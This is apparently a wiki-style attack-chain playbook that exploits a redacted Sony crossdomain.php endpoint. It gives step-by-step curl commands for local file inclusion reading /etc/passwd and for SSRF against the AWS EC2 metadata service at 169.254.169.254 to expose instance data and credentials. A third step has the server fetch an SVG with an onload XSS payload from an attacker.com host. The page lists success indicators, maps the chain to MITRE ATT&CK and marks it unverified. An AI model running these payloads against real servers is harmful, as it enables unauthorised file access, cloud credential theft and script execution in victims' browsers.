

# Chained LFI and SSRF in Sony Crossdomain.php for File Access, AWS Metadata Exfiltration, and Reflected XSS

Multi-stage attack chain demonstrating exploitation of vulnerabilities in the Sony web application's http://www.███████/crossdomain.php endpoint, starting with LFI to read sensitive files, progressing to SSRF for internal AWS metadata access, and chaining to reflected XSS for potential code execution.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser or [[commands/curl-lfi-test]]
- [[commands/curl-ssrf-metadata]]
- [[commands/curl-ssrf-xss]]

### Target Environment

- Web platform with PHP backend
- AWS EC2 instances
- Exposed endpoint: http://www.███████/crossdomain.php
- No authentication required for initial access

### Initial Access Requirements

- Public network access to the target endpoint
- No credentials needed
- Ability to host external files (e.g., malicious SVG)

## Detailed Attack Procedures

### Step 1: Discover and Exploit LFI
procedure: [[procedures/Discover-and-Exploit-LFI-in-URL-Parameter]]

**Objective**: Identify and exploit Local File Inclusion to read sensitive local files like /etc/passwd.

**Instructions**: Test the 'url' parameter for LFI by appending local file paths. Use [[commands/curl-lfi-test]] to send a request:

```bash
curl "http://www.███████/crossdomain.php?url=/etc/passwd"
```

If successful, the response will include file contents. Validate by checking for Unix file structure indicators.

**Expected Output**: Raw contents of /etc/passwd displayed in the response body.

**Success Indicators**:
- File contents leaked in HTTP response
- No 404 or error; direct file data returned

### Step 2: Exploit SSRF for AWS Metadata
procedure: [[procedures/Exploit-SSRF-for-AWS-EC2-Metadata-Access]]

**Objective**: Leverage SSRF to access internal AWS EC2 instance metadata endpoints.

**Instructions**: Modify the 'url' parameter to point to internal AWS metadata service. Execute [[commands/curl-ssrf-metadata]]:

```bash
curl "http://www.███████/crossdomain.php?url=http://169.254.169.254/latest/meta-data/"
```

Parse the response for metadata like instance ID or IAM roles. Chain from LFI success to confirm SSRF.

**Expected Output**: JSON or text with EC2 metadata, such as instance-id or security credentials.

**Success Indicators**:
- Internal metadata retrieved
- Response contains AWS-specific data (e.g., 'ami-id')

### Step 3: Chain SSRF to Reflected XSS
procedure: [[procedures/Chain-SSRF-to-Reflected-XSS-via-Malicious-SVG]]

**Objective**: Use SSRF to fetch an external SVG containing XSS payload, enabling reflected execution.

**Instructions**: Host a malicious SVG with XSS (e.g., <svg onload=alert(1)>) on an external server, then use [[commands/curl-ssrf-xss]] to fetch it:

```bash
curl "http://www.███████/crossdomain.php?url=https://attacker.com/malicious.svg"
```

Observe the reflected payload in the response and execution in the browser context.

**Expected Output**: SVG content reflected, with XSS payload triggering (e.g., alert dialog).

**Success Indicators**:
- External resource fetched and reflected
- JavaScript from SVG executes in the victim's browser

## Attack Chain Summary

### Key Achievements

1. Unauthorized access to local server files via LFI
2. Exfiltration of sensitive AWS EC2 metadata via SSRF
3. Chained exploitation leading to reflected XSS for potential session hijacking or further payload delivery

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[File and Directory Discovery]]
- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Discovery]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
